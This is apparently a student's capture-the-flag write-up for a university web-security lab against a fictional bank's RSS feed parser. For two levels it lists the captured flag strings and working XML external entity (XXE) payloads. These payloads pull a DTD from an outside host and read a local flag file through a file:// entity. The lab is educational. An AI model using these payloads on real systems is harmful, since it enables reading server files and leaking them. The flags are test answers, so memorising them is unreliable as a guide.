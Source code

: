 ### v2.feedifier.quoccabank.com

- COMP6443{XXE.ejUzMTI3OTk=.V5cIucOcaHyM/9GbUVx9TA==}

  - https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/

    ![Links to unknown entities example](https://i2.wp.com/lab.wallarm.com/wp-content/uploads/2019/01/1_bcb-7vLXdyo_NWmwoK6gcA.png?resize=770%2C242&ssl=1)

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ELEMENT foo ANY >
  <!ENTITY % xxe SYSTEM "http://cgi.cse.unsw.edu.au/~z5312799/v2.html">%xxe;]>
  <rss version="2.0"
  	xmlns:content="http://purl.org/rss/1.0/modules/content/"
  	xmlns:wfw="http://wellformedweb.org/CommentAPI/"
  	xmlns:dc="http://purl.org/dc/elements/1.1/"
  	xmlns:atom="http://www.w3.org/2005/Atom"
  	xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
  	xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
  	>
  <channel>
  	<description>The blogging home of QuoccaBank</description>
  	<item>
  		<title>&payload;</title>
  		<link>https://blog.quoccabank.com/?p=42</link>
  		<description><![CDATA[Scott&#8217;s favourite animal are the sharks.]]></description>
  	</item>
  	</channel>
  </rss>
  ```

  ```xml
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % stuff SYSTEM "file:///flag_733834329685b98d0b047e7dc0a752ef">
  <!ENTITY % end "]]>">
  <!ENTITY payload "%start;%stuff;%end;">
  ```

### v3.feedifier.quoccabank.com

- COMP6443{XXXE.ejUzMTI3OTk=.CULdWS1r6J3NM6Qxq4aRjQ==}

  - https://github.com/Angus-C-git/SecSheets/blob/master/Web/Injection/XXE/XXE.md

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
    <!ENTITY % xxe SYSTEM "http://cgi.cse.unsw.edu.au/~z5312799/v3.html">%xxe;]>
    <rss version="2.0">
    <channel>
    	<description>The blogging home of QuoccaBank</description>
    	<item>
    		<title>&payload;</title>
    		<link>https://blog.quoccabank.com/?p=42</link>
    		<description><![CDATA[&xxe;]]></description>
    	</item>
    	</channel>
    </rss>
    ```
